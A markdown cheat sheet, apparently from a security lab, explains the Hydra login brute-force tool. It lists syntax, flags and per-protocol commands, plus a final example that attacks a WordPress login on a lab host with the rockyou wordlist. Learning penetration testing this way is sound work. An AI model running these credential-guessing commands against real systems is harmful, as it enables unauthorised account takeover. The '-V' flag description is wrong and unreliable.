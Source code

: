 
# Hydra

## Introduction

Hydra is a powerful, flexible, and fast network login attack tool. It supports numerous network protocols, including HTTP, FTP, IMAP, LDAP, Telnet, and many others, making it an invaluable tool for penetration testing and security auditing.

## Basic Syntax

The basic command structure for Hydra is:

```bash
hydra -l <username> -P <password list> <target> <protocol> [options]
```

- `-l <username>`: This flag specifies the username to be used during the attack.
- `-P <password list>`: This flag specifies the path to the file containing a list of potential passwords.
- `<target>`: This is the IP address or domain name of the target system.
- `<protocol>`: This specifies the protocol to be used for the attack.

## Common Options

- `-V`: Displays the version of Hydra.
- `-t <threads>`: Specifies the number of concurrent connections to attempt during the attack.
- `-w <delay>`: Sets a delay (in seconds) between connection attempts.
- `-f`: Instructs Hydra to stop the attack after finding the first valid username and password combination.
- `-L <user list>`: Specifies a file containing a list of usernames to attempt.
- `-M <host list>`: Specifies a file containing a list of target hosts.
- `-s <port>`: Specifies the port to be used for the attack.
- `-vV`: Verbose mode. Displays information about every attempted username and password combination.

## Protocol Specific Usage

### HTTP

```bash
hydra -l <username> -P <password list> <target> http-get /path
```

- `http-get /path`: Specifies that Hydra should use the HTTP protocol, with a GET request to the specified path.

### FTP

```bash
hydra -l <username> -P <password list> <target> ftp
```

- `ftp`: Specifies that Hydra should use the FTP protocol.

### SSH

```bash
hydra -l <username> -P <password list> <target> ssh
```

- `ssh`: Specifies that Hydra should use the SSH protocol.

### Telnet

```bash
hydra -l <username> -P <password list> <target> telnet
```

- `telnet`: Specifies that Hydra should use the Telnet protocol.

### RDP

```bash
hydra -l <username> -P <password list> <target> rdp
```

- `rdp`: Specifies that Hydra should use the RDP protocol.

## Examples

Here are some example commands for using Hydra:

### HTTP

```bash
hydra -l admin -P passwords.txt 192.168.1.1 http-get /login.php
```

This command will use the username `admin` and the password list `passwords.txt` to perform a GET request on `http://192.168.1.1/login.php`.

### FTP

```bash
hydra -l john -P passwords.txt ftp://192.168.1.1
```

This command will use the username `john` and the password list `passwords.txt` to perform an FTP attack on `ftp://192.168.1.1`.

## Further Resources

For more information on Hydra and its capabilities, you can refer to the [official documentation](https://github.com/vanhauser-thc/thc-hydra).

Please ensure to use this tool responsibly and ethically.
```

example hydra -l bjoel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form '/wp-login.php:user=^USER^&pass=^PASS^:F=The password'   